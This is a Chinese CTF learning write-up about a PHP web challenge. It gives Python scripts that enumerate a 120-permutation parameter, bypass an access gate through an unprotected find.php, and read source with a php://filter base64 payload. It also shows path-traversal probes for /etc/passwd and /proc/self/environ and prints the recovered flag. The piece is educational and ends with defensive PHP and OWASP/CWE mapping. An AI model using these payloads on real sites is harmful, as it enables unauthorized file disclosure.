


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 08 路径穿越](/posts/ctf-learning/08-path-traversal/)　·　[10 文件上传 →](/posts/ctf-learning/10-file-upload/)



> **一句话**：这题把三件事串在一起 —— **① 穷举一个 5 字母的参数名；② 发现门禁只装在首页、后端接口是裸奔的；③ 用 `php://filter` 读源码，flag 藏在注释里。**

| 项目 | 内容 |
|---|---|
| 类型 | 参数枚举 · 访问控制缺失 · 路径穿越 / 文件读取 · PHP 流过滤器 |
| 难度 | ★★★ |
| 环境 | Apache + PHP 8.2 |
| 入口 | `GET /?<5字母参数>=<同一个5字母>` |
| 关键 payload | `find.php?file=php://filter/convert.base64-encode/resource=flag.php` |

> 📌 本篇素材来自两次实测（靶机重启后端口变了，内容一致）。**所有命令和回显都是真跑出来的。**

---

## ① 一眼看懂

### 题干给的线索

> 「千机禁域 —— 十万八千虚门，唯有一实门可通阵眼」
> 「唯有同时破解**参数之谜**与**路径禁制**者，方可破此千机大阵」
> 「阵中符箓瞬息万变，**参数真名每时不同**」

附加提示（题干）：

> 参数名由 `m n o p q` 五个字母组成（每个出现且仅出现一次），长度正好 5。
> 虽然不知道顺序，但**参数名等于参数值**才能进入。

### 翻译成人话

| 谜面 | 技术含义 |
|---|---|
| 十万八千虚门 | 有很多种可能，但**有限** |
| 参数真名 = 5 个字母的排列 | 只有 `5! = 120` 种 |
| 参数名等于参数值 | `?abcde=abcde` 这种形式 |
| **参数真名每时不同** | ⚠️ **有效参数在变**（这句不是修辞，是实测现象） |

**120 种可能，脚本几秒就能跑完。**

> 💡 **"枚举"和"爆破"不冲突**：枚举说的是"把候选一个个列出来"，爆破说的是"一个个试过去找有效的那个"。这里就是**小搜索空间下的穷举尝试**。
>
> 但它和"猜密码"性质不同 —— **候选已知且有限**，所以几乎必然能试到。这才是"靠隐藏参数名来防守"的致命伤。
>
> （另外"零成本"也不准确：每次请求都有网络延迟，题方还可能限流。）

### 但真正的主角是后半句：「路径禁制」

进去以后你会发现是个**文件浏览器**，还有一个 `find.php`。而：

> 🎯 **`find.php` 根本不需要那个参数就能直接访问。**

也就是说：**门禁只装在前门（首页），后端那个真正干活的文件是裸奔的。**

---

## ② 思路图



---

## ③ 动手步骤

### 第 1 步：枚举 120 种排列

**别手点**，写脚本。核心就三行：

> ⚠️ **把 `<靶机>` 整体换成当前靶机的 `主机名:端口`**（**连尖括号一起去掉**）。靶机重启后端口会变，所有 URL 都要换成同一个新地址。

```python
import itertools, urllib.request
perms = ["".join(p) for p in itertools.permutations("mnopq")]   # 120 种
for p in perms:
    url = f"http://<靶机>/?{p}={p}"
    body = urllib.request.urlopen(url, timeout=10).read()
    print(p, len(body))
```

**判断标准：哪种排列的响应长度和大多数不一样。**

我实测拿到过这些命中（**下面的数字都是「响应体字节数」**，不是字符数）：

| 参数名 | 响应体字节数 |
|---|---|
| 大多数排列（没中） | 9430 |
| `nqmpo` / `pqmon` / `qmnop` / `mnoqp` | **19150** ← 命中 |
| `qonmp` | **19766** ← 也命中 |

**命中页面就是下一个阶段**：一个叫「金曦玄轨·破界之眼」的**文件浏览器**。

### 第 2 步：发现「参数真名每时不同」是字面意思

我做了个关键实验：**扫到可用参数后，立刻用同一个 URL 再请求一次**。

```
第1次（扫到）：?onpmq=onpmq   → 19150  ✅ 进去了
立刻重放同一 URL → 9430  ❌ 失效了
```

**实测现象**：某次命中后，**立刻重放同一个 URL，没再进去** —— 说明这个 URL 在两次请求中的结果**不稳定**。

> ⚠️ **下面是我的推测，不是结论**：可能是"参数真名在变"（题干那句「参数真名每时不同」是暗示），也可能是**一次性状态**、会话、或其他请求上下文导致的。
> **我没有拿到源码，机制未核实。**
>
> **但这不影响打法** —— 反正你要的就是"撞进去看一眼"。

> 💡 如果你确实需要**带着参数**去访问后端（例如 `?abcde=abcde&file=xxx`），可以**并发**把 120 种都发出去（每个参数各带一份 `file=`）。
> 但因为"到底会不会命中"本身不稳定，**遍历一轮不保证成功** —— 没中就再跑几轮。

### 第 3 步：进去看见什么

命中后的页面是**文件浏览器**：

```
当前路径: ./
信标空间
玉简名称        玄轨类型
find.php       玄轨玉简
flag.php       玄轨玉简
index.php      玄轨玉简
```

还有一个输入框：

```html
<form method="GET">
  <input type="text" name="file" value="./" placeholder="输入信标路径或玉简名称...">
</form>
```

👉 **看到这个输入框，你就该想到路径穿越和伪协议了**（参考 08 篇）。

### 第 4 步：🎯 发现「门禁只挡前门」

我随手试了一下**不带任何参数**直接访问 `find.php`：

```
http://<靶机>/find.php
→ HTTP 200，响应体 19150 字节 —— 就是那个文件浏览器！
```

**对比一下**：

| 请求 | 结果 |
|---|---|
| `/index.php`（不带参数） | 9430 —— 被门禁拦住，显示"千机禁域" |
| **`/find.php`（不带参数）** | **19150 —— 直接就进去了** |
| `/?<正确参数>=<正确参数>` | 19150 —— 和上面**一模一样** |

**结论**：

```
index.php  = 门        （参数谜题装在这儿）
find.php   = 门后面的房间（文件浏览器，没装门禁）
```

**那个"十万八千虚门"的参数谜题，整个可以跳过。**

> **这就是本篇最值钱的一课**：
> **如果检查只做在首页、而受保护的接口还能被直接访问，那首页的检查就等于没做。**
>
> **正确做法**：每一次访问受保护资源，都必须经过**能真正拦住它的**权限校验 ——
> 可以放在**统一入口 / 中间件**里（前提是**所有**受保护请求都必过它、绕不过去），也可以放在接口内部的**公共权限函数**里。
> **关键不是"写在哪"，而是"有没有旁路"。**

### 第 5 步：用 `find.php` 读文件

```
find.php?file=flag.php
→ 当前玉简: flag.php
  玉简内容
  flag就在这了，看不到吗，是老弟境界不够吧
```

**只有一句嘲讽。** 但注意这句话的字面意思 —— **"flag 就在这了，看不到吗"**。

**为什么看不到**：**直接通过 HTTP 请求 `flag.php`** 时，PHP 会**执行**它，只输出 `echo` 的内容；**注释不产生输出**。

（本题走的是 `find.php?file=flag.php`，它的回显和"执行结果"一致，说明这个接口很可能也是把文件当 PHP 跑；**但 `find.php` 内部到底用 `readfile` 还是 `include`，我没有源码，未核实**。）

### 第 6 步：🎯 读源码，而不是执行它

用 `php://filter` 伪协议：

```
find.php?file=php://filter/convert.base64-encode/resource=flag.php
```

| 部分 | 作用 |
|---|---|
| `php://filter` | PHP 的**流封装器**：可以在读取文件时套用过滤器。**它本身不决定"执不执行"** —— 那取决于后端用的是 `readfile` 还是 `include` |
| `convert.base64-encode` | 把读出来的字节编码成 Base64（这样即使后端用了 `include`，编码后的文本也不会被当成 PHP 代码解析；纯文本也不会破坏页面结构） |
| `resource=flag.php` | 目标文件 |

**实测回显**（base64）：

```
PD9waHAKZWNobyAiZmxhZ+WwseWcqOi/meS6hu+8jOeci+S4jeWIsOWQl++8jOaYr+iAgeW8n+Wig+eVjOS4jeWkn+WQpyI7Ci8vZmxhZ3swYjFhMTM0Yi01YTcxLTQwODUtYjg2Ny1kNzU0Y2FjMWI4M2Z9
```

**解码后**：

```php
<?php
echo "flag就在这了，看不到吗，是老弟境界不够吧";
//flag{0b1a134b-5a71-4085-b867-d754cac1b83f}
```

**flag 就躺在那行注释里。**

**Python 版一键解码**：

```python
import base64, re, urllib.parse, urllib.request

BASE = "http://<靶机>"                      # ← 换成你的地址（连尖括号一起删）
payload = "php://filter/convert.base64-encode/resource=flag.php"
url = BASE + "/find.php?file=" + urllib.parse.quote(payload, safe="")
html = urllib.request.urlopen(url, timeout=20).read().decode("utf-8", "replace")

# 只抓「玉简内容」和「玄天剑宗」之间的 base64 字符
m = re.search(r"玉简内容([A-Za-z0-9+/=\s]+)玄天剑宗", html, re.S)
if not m:
    print("没抓到 base64 —— 页面结构可能变了，先 print(html) 看一眼")
    raise SystemExit(1)

b64 = re.sub(r"\s+", "", m.group(1))      # ⚠️ 只去掉空白
print(base64.b64decode(b64).decode("utf-8", "replace"))
```

> ⚠️ **踩坑提醒**：`/` 和 `+` **是 Base64 字母表的一部分**，清洗时**只能去空白**。
> 如果你顺手把 `/` 也删了（我第一版就这么写的），解出来的就是乱码或直接报错。
> 另外别用 `[^A-Za-z0-9+/=]` 之外的"宽松"正则，那样会把 HTML 标签名也吃进去。

### 第 7 步：顺手侦察（别瞎猜文件名）

**先列目录，再决定读什么：**

```
find.php?file=./          → 列当前目录（find.php / flag.php / index.php）
find.php?file=../         → 列上级目录 → 发现网站根目录是 /app/，../ 就是 /
find.php?file=../app/     → 再列一次网站根目录
```

> **真实渗透里这一步极重要**：很多题的 flag 文件名是**随机的**（比如 04 篇 Project X 那题叫 `ffffllllaaaagggg114514`），只有先列目录才知道它叫什么。

**⚠️ 这题还有个「File too long.」限制**：

| 请求 | 结果 |
|---|---|
| `find.php?file=./` | ✅ 列目录 |
| `find.php?file=flag.php` | ✅ 22 字符，能看 |
| `find.php?file=/etc/passwd` | ❌ **File too long.** |
| `find.php?file=../proc/self/environ` | ❌ **File too long.** |
| `find.php?file=php://filter/resource=flag.php`（不加 base64） | ❌ **File too long.** |
| **`find.php?file=php://filter/convert.base64-encode/resource=flag.php`** | ✅ **成功** |

> ⚠️ **诚实标注**：这个"为什么加了 `convert.base64-encode` 就能过、不加就报太长"的**具体原因我没有查清**（我试了好几种过滤器链都没能读出 `find.php` 的源码，**失败原因未确认**）。**机制未核实**，只知道**这样写实测有效**。
> 这条经验不要当通用规律用 —— 遇到类似题，**把几种过滤器都试一遍**。

---

## ④ 原理拆解

**为什么"谜之参数"挡不住穷举？** 门禁校验的是一个 GET 参数（GET 参数即 URL 里 `?名=值` 提交的键值对），且要求参数名与参数值相同。题目自己泄露了参数名由 `m n o p q` 五个字母各用一次、长度恰为 5，搜索空间于是只剩 `5! = 120` 种，脚本几秒即可跑完。这就是"靠隐藏名字来防守"的根本缺陷：**秘密的可能取值太少时，隐藏等于没隐藏。**

实测同一参数重放立即失效，说明答案在不断更换；但究竟是每次请求随机生成还是按时间片轮换，**机制需核实**，不能凭现象当规律。

**为什么参数谜题其实白算了？** 这是本题最核心的漏洞：**访问控制只写在前门 `index.php` 里**。实测 `/index.php` 无参被拦（9430 字符），`/find.php` 无参却直接返回完整功能页（19150 字符），且与带正确参数的首页完全一致 —— 可见校验是**各页面各自为政**，而非站点统一实施。

典型出错写法（⚠️ 示意代码，非本题源码）：

```php
// index.php
if (!check_param()) { die("拦截"); }
include "find.php";   // find.php 内部没有同一道检查
```

只要有一个后端页面漏写检查，整条防线作废。这类问题即"**失效的访问控制**"（Broken Access Control，即服务端未逐请求核实权限）。

**为什么 flag 要用 `php://filter` 读？** `php://filter` 是 PHP 伪协议（让文件操作函数读取特殊数据流的封装器），可在读取文件内容时套用过滤器。直接访问 `flag.php` 会被 PHP 引擎**执行**，注释 `//flag{...}` 不进输出；改用 `php://filter/convert.base64-encode/resource=flag.php` 后，文件内容以原始字节读出、经 base64 编码成纯文本返回，解码即得源码与注释里的 flag。

另注意：不加 base64 的 filter 与 `/etc/passwd` 等读取均报 "File too long."，加了反而成功，其判定机制**需核实**（`find.php` 源码未能读出），此处只陈述实测现象。此外 `file=../` 可列出上级目录，说明**这个接口允许访问当前目录之外的路径**；如果这些路径本该被禁止，那就是**路径访问限制没有真正落实**。（参数具体怎么进入文件操作、还有没有别的校验，需要源码或进一步测试确认。）

---

## ⑤ 延伸与防御

### A. 真实世界对应

OWASP Top 10 是常见 Web 安全风险榜单。本题属于 **A01:2021 — 失效的访问控制**：服务器未在每个受保护入口检查权限；这里的"前门"是首页，并不能据此认定只有浏览器端校验。

CWE 是软件弱点分类。两类问题分别对应：

- **CWE-862：缺失授权检查** —— `find.php` 可被直接访问。
- **CWE-22：未正确限制路径名至受限目录（路径穿越）** —— 用户可借路径越出允许目录；任意文件读取是其可能后果，协议封装器还扩大了读取方式。

经典案例：2021 年，Apache HTTP Server 2.4.49 披露 **CVE-2021-41773**，路径规范化缺陷在特定配置下允许越界读取文件。**本题使用 Apache，不代表存在同一漏洞。**

### B. 同类题变形

- **参数名很长**：先从页面、脚本和请求记录寻找线索，判断搜索空间；长参数不适合盲目穷举。
- **参数带签名**：签名是校验数据是否被篡改的凭据。检查签名覆盖范围及是否绑定用户、有效期，不能假定改参数仍有效。
- **接口无参数仍被拦**：检查会话和资源权限；"不需要参数"不等于"不需要授权"。
- **过滤 `../` 或禁用某过滤器**：区分**路径限制**与**内容转换**，结合允许目录、可用过滤器分析。过滤器链是连续转换数据的组合，并非必然绕过限制；本题大小判定机制仍需核实。
- **换成需要 POST 或 JSON 传参**：先确认参数实际从哪里读（`$_GET` / `$_POST` / JSON body），再决定怎么发。

### C. 防御写法

⚠️ 以下为示意代码，非本题源码；权限函数需由业务实现。

**错误做法**：只检查首页，文件接口直接使用用户路径。

```php
// index.php
requirePermission('browse');
// find.php
readfile($_GET['file']);
```

**正确做法**：每个接口都检查权限，让用户只提交**文件编号**。

```php
// find.php
requirePermission('browse');        // 未登录或无权即终止
$files = ['guide' => '/srv/public-docs/guide.txt'];
$id = $_GET['id'] ?? '';
if (!is_string($id) || !isset($files[$id])) {
    http_response_code(400);
    exit;
}
requireFilePermission($id);         // 核实当前用户可读此文件
readfile($files[$id]);
```

**编号白名单**即"只允许预先列出的选项"，同时排除用户指定绝对路径、`../` 和 `php://` 等协议。固定目录及文件须禁止用户修改，防止链接指向敏感文件。

确需接受路径时，应**拒绝协议形式**，用 `realpath` 解析真实路径，再按**含目录分隔符的前缀**检查归属 —— **不能只删除 `../`**（可以绕过）。
